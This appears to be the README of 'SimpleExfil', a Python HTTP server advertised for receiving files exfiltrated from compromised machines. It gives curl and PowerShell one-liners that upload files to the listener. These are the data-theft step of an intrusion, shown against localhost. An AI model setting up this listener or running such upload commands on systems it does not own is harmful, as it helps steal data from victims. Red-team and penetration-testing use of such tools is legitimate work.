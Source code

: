 # SimpleExfil

SimpleExfil lets you exfiltrate your files. This server accepts and stores files sent through HTTP POST requests, ideal for operations requiring file uploads from compromised machines or remote systems. It's lightweight, easy to deploy, and listens on a customizable port.

## Requirements

- Python 3.x

## Usage

Start the server by specifying the desired port as an argument. If no port is specified, it defaults to 8000.

```
python simpleexfil.py 8000
```

To upload a file, use `curl` from the command line, PowerShell, or any suitable HTTP client. Example for uploading `example.txt`:

```
curl -F "file=@example.txt" http://127.0.0.1:8000
```
Note that this only works with actual `curl`, so this command might not work in PowerShell.

To upload a file using PowerShell you can use the following (may not be very reliable):
```
(New-Object System.Net.WebClient).UploadFile("http://127.0.0.1:8000", "C:\tmp\example.txt")
```

Server can also be accessed on the browser for a classic upload UI.

## File Storage Behavior

The server uses the base name of the uploaded file when saving to avoid
directory traversal attacks. If a file with the requested name already
exists, a numerical suffix is appended (e.g. `file.txt`, `file_1.txt`,
`file_2.txt`, ...).
